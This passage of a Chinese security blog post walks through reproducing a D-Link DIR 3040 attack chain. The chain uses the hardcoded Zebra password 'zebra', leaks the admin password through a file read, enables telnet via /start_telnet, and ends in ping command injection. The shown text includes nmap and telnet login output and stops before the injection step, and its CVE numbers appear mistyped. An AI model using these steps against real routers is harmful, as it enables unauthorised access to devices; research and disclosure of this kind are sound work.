> 原文链接: https://www.anquanke.com//post/id/248740 


# D-Link DIR 3040 从信息泄露到 RCE


                                阅读量   
                                **24535**
                            
                        |
                        
                                                                                    



[![](https://p1.ssl.qhimg.com/t01b0876b8fa8eadabd.png)](https://p1.ssl.qhimg.com/t01b0876b8fa8eadabd.png)



作者：OneShell@知道创宇404实验室**<br>**

7月中旬，Cisco Talos安全研究员Dave MacDaniel公布了D-Link DIR 3040（固件版本1.13B03）的多个CVE漏洞的具体利用细节，这些漏洞环环相扣，从硬编码密码导致的信息泄露一步步到无需认证的RCE，具体的漏洞编号和漏洞描述如下：
- CVE-2021-12817：Zebra服务因读取任意文件设置登录banner导致的敏感信息泄露
- CVE-2021-12818：Zebra服务使用硬编码密码zebra
- CVE-2021-12819：可通过访问https://&lt;router_ip&gt;/start_telnet开启telnet，并使用管理员密码登录，其中提供的功能例如ping存在命令注入
从这三个漏洞的描述就可以看出攻击链大概就是：先使用Zebra硬编码密码登录，然后通过读取任意文件窃取管理员admin密码，再开启telnet，最后实现命令注入，将一个本来是后认证的RCE组合变成了无条件RCE。下面就先直接上图说明漏洞利用的可行性，然后再进行原理的分析。



## 攻击链复现

我手头上是有一个部署在公网的路由器DIR 3040，一开始端口是没有开启telnet的，下图是我复现漏洞成功后，没有关闭telnet。

```
# oneshell @ UbuntuDev in ~ [23:44:30] C:130
$ nmap -Pn X.X.X.X

Starting Nmap 7.60 ( https://nmap.org ) at 2021-07-22 23:44 PDT
Nmap scan report for XXX.XXX.com (X.X.X.X)
Host is up (0.28s latency).
Not shown: 995 filtered ports
PORT     STATE SERVICE
23/tcp   open  telnet
53/tcp   open  domain
80/tcp   open  http
443/tcp  open  https
2602/tcp open  ripd
```

首先使用telnet登录开启了Zebra的2601端口，使用硬编码密码zebra，实际上也是服务的默认密码，Zebra使用默认密码在06年的时候就爆出来过一些。

```
# oneshell @ UbuntuDev in ~ [23:42:09] C:1
$ telnet X.X.X.X 2601
Trying X.X.X.X...
Connected to X.X.X.X.
Escape character is '^]'.
          ___           ___           ___
         /__/\         /  /\         /  /\
        _\_ \:\       /  /::\       /  /:/_
       /__/\ \:\     /  /:/\:\     /  /:/ /\
      _\_ \:\ \:\   /  /:/~/:/    /  /:/ /::\
     /__/\ \:\ \:\ /__/:/ /:/___ /__/:/ /:/\:\
     \  \:\ \:\/:/ \  \:\/:::::/ \  \:\/:/~/:/
      \  \:\ \::/   \  \::/~~~~   \  \::/ /:/
       \  \:\/:/     \  \:\        \__\/ /:/
        \  \::/       \  \:\         /__/:/
```